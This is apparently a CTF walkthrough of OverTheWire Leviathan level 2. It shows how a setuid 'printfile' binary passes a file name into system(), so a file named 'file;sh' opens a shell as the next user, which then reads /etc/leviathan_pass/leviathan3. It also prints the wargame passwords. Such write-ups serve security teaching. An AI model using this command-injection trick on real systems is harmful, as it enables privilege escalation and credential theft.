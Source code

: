 # Leviathan 2


## Overview

-----------------
On the OverTheWire/Leviathan website, we are told how connecting to the bandit server as a specific user works.

Each user corresponds to a different level:
- Leviathan0 -> Level 0
- Leviathan1 -> Level 1
- ...
- Leviathan33 -> Level 33

Each level is hiding a flag, which is used as the password for the following level. Meaning, one must solve `Level n` to play `Level n+1`.

We always start out connecting to the `leviathan.labs.overthewire.org` server on `port 2223` for each level.
Again, the users on the server specifies the level. Each starting point is the same:

``` text
➜  ~  ssh leviathan0@leviathan.labs.overthewire.org -p 2223          
                   _            _       _   _                        
                  | | _____   _(_) __ _| |_| |__   __ _ _ __         
                  | |/ _ \ \ / / |/ _` | __| '_ \ / _` | '_ \        
                  | |  __/\ V /| | (_| | |_| | | | (_| | | | |       
                  |_|\___| \_/ |_|\__,_|\__|_| |_|\__,_|_| |_|       
                                                                     
                                                                     
                      This is an OverTheWire game server.            
            More information on http://www.overthewire.org/wargames  
                                                                     
leviathan0@leviathan.labs.overthewire.org's password:     
```

The password will always be the flag of the previous level. With the exception of Level 0, where the password is `leviathan0`.


## Connecting

--------------

We can establish a connection with the server via ssh, and using the password `mEh5PNl10e`:

``` text
➜  ~  ssh leviathan2@leviathan.labs.overthewire.org -p 2223
                   _            _       _   _                 
                  | | _____   _(_) __ _| |_| |__   __ _ _ __  
                  | |/ _ \ \ / / |/ _` | __| '_ \ / _` | '_ \ 
                  | |  __/\ V /| | (_| | |_| | | | (_| | | | |
                  |_|\___| \_/ |_|\__,_|\__|_| |_|\__,_|_| |_|
                                                              

                      This is an OverTheWire game server. 
            More information on http://www.overthewire.org/wargames

leviathan2@leviathan.labs.overthewire.org's password: mEh5PNl10e

      ,----..            ,----,          .---.
     /   /   \         ,/   .`|         /. ./|
    /   .     :      ,`   .'  :     .--'.  ' ;
   .   /   ;.  \   ;    ;     /    /__./ \ : |
  .   ;   /  ` ; .'___,/    ,' .--'.  '   \' .
  ;   |  ; \ ; | |    :     | /___/ \ |    ' '
  |   :  | ; | ' ;    |.';  ; ;   \  \;      :
  .   |  ' ' ' : `----'  |  |  \   ;  `      |
  '   ;  \; /  |     '   :  ;   .   \    .\  ;
   \   \  ',  /      |   |  '    \   \   ' \ |
    ;   :    /       '   :  |     :   '  |--"
     \   \ .'        ;   |.'       \   \ ;
  www. `---` ver     '---' he       '---" ire.org


Welcome to OverTheWire!

<snip>

  Enjoy your stay!

leviathan2@gibson:~$ 
```

## Looking Around

--------------
We first start by looking around the home directory, as we have no idea what is going on. We will use the command `ls`,
which allows us to `list` the content of the current directory (or specified directory).


``` text
leviathan2@gibson:~$ ls 
printfile
leviathan2@gibson:~$ ./printfile
*** File Printer ***
Usage: ./printfile filename
```

Alright let's check out how the `printfile` works using the `ltrace` command.

``` text

```

``` text
leviathan2@gibson:~$ mktemp -d
/tmp/tmp.coxd7AqHmP
leviathan2@gibson:~$ cd /tmp/tmp.coxd7AqHmP
leviathan2@gibson:/tmp/tmp.coxd7AqHmP$ touch file.txt
leviathan2@gibson:/tmp/tmp.coxd7AqHmP$ ltrace ~/printfile file.txt 
__libc_start_main(0x80491e6, 2, 0xffffd5a4, 0 <unfinished ...>
access("file.txt", 4)                                                                   = 0
snprintf("/bin/cat file.txt", 511, "/bin/cat %s", "file.txt")                           = 17
geteuid()                                                                               = 12002
geteuid()                                                                               = 12002
setreuid(12002, 12002)                                                                  = 0
system("/bin/cat file.txt" <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                  = 0
+++ exited (status 0) +++
leviathan2@gibson:/tmp/tmp.coxd7AqHmP$ ltrace ~/printfile file2.txt 
__libc_start_main(0x80491e6, 2, 0xffffd5a4, 0 <unfinished ...>
access("file2.txt", 4)                                                                  = -1
puts("You cant have that file..."You cant have that file...
)                                                      = 27
+++ exited (status 1) +++
```

Okay. Apparently the function `access()` checks if the file exists and then passes it on through the program.

If we do give it a good file (existing file), the program makes a system call using `cat` on the filename to print the
file.

After being stuck for a while, I realized that the `system()` function treats its contents like a terminal. So, 
we can create a "command" as a file name to be passed into the `system()` function.

``` text
leviathan2@gibson:/tmp/tmp.coxd7AqHmP$ ltrace ~/printfile "file;pwd" 
__libc_start_main(0x80491e6, 2, 0xffffd5a4, 0 <unfinished ...>
access("file;pwd", 4)                                                                   = 0
snprintf("/bin/cat file;pwd", 511, "/bin/cat %s", "file;pwd")                           = 17
geteuid()                                                                               = 12002
geteuid()                                                                               = 12002
setreuid(12002, 12002)                                                                  = 0
system("/bin/cat file;pwd"/bin/cat: file: No such file or directory
/tmp/tmp.coxd7AqHmP
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                  = 0
+++ exited (status 0) +++
leviathan2@gibson:/tmp/tmp.coxd7AqHmP$
```

As we can see it worked. We got the `pwd` (print working directory) used as a command. Now, what if we create a shell
and escelate our privilieges to use commands as `leviathan3`?


``` text
leviathan2@gibson:/tmp/tmp.coxd7AqHmP$ touch "file;sh"
leviathan2@gibson:/tmp/tmp.coxd7AqHmP$ ~/printfile "file;sh" 
/bin/cat: file: Permission denied
$ whoami
leviathan3
$ cat /etc/leviathan_pass/leviathan3
Q0G8j4sakn
$     
```

We created a file names `file;sh` in the hopes that the `system()` function creates a shell for us to use. And it actually
did create a shell for us. We tested it with the `whoami` command, and we got `leviathan3` as the answer. Now, we can execute
the `cat /etc/leviathan_pass/leviathan3` to print the password for `leviathan3`. And we got the password. HELL YEAH.



